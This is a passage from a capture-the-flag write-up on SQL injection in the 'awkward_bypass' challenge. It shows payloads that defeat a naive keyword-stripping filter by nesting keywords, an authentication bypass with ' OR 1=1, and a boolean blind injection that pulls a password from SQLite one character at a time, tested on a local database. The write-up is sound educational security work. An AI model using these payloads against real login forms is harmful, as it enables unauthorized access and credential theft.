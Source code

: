 ```sh
utopia@messiah:~/Documents/CTFs/awkward_bypass$ python3 sql.py   
' OR 1=1 -- -  <-- Username field
blabla  <-- Password field
SELECT * FROM users WHERE username=''  1=1 -- -' AND password='blabla' <-- result of filtering
```

Now let's try to bypass it using the same principle of `str.replace()`.

```sh
utopia@messiah:~/Documents/CTFs/awkward_bypass$ python3 sql.py   
' OorR 1=1 -- -  <-- Username field
blabla  <-- Password field
SELECT * FROM users WHERE username='' OR 1=1 -- -' AND password='blabla'  <-- result of filtering
```

We've now officially bypassed the blacklisting/filtering.

## SQL Injection

### Testing if boolean is the correct way to go

We can bypass authenticated pretty easily with the payload `' OorR 1=1; -- -`, this is pretty standard and basic.

![injected](../assets/images/imginaryCTF/injected.png)

It works! Except... we don't have the flag, **yet**. We now have to enumerate the table name column `password` which contains the flag using boolean SQLi.

### Exploiting boolean SQLi to retrive flag from DB

We can also verify quickly verify for boolean SQLi with the payload `' OorR 3>1; -- -`, if the condition evalutes to True, we'll get a `Ummmmmmm, did you expect a flag to be here?` page, if not, we'll get `Error`.

Equipped with this information and also a filter bypass, we can now with ease enumerate the database with this payload

```
`' OorR 1=1 AandND (SEselectLECT hex(substr(paASsswoORrd,1,1)) FRfromOM sqlite_maASster WHwhereERE type='tatableble' AandND tbl_name NnnoOTOT LIlikeKE 'sqlite_%' LIlimitMIT 1 OofFFSsetET 0) > hex('A'); -- -`
```

or without all the filter bypass mess,

```
' OR 1=1 AND (SELECT hex(substr(password,1,1)) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE  'sqlite_%' LIMIT 1 OFFSET 0) > hex('A'); -- -
```

Now, the payload does not make much sense without any information on how it works, basically, if we execute this into our makeshift SQLite database, it'll make more sense.

```
sqlite> SELECT * FROM users WHERE username='' OR 1=1 AND (SELECT hex(substr(password,1,1)) FROM sqlite_master WHERE type='table' AND tbl_name NOT LIKE  'sqlite_%' LIMIT 1 OFFSET 0) > hex('A'); -- -' AND password=''  
administrator|password123  
john.william|password  
sqlite> SELECT * FROM users WHERE username='' OR 1=1 AND (SELECT hex(substr(password,1,1)) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' limit 1 offset 0) > hex('z');           
sqlite>
```
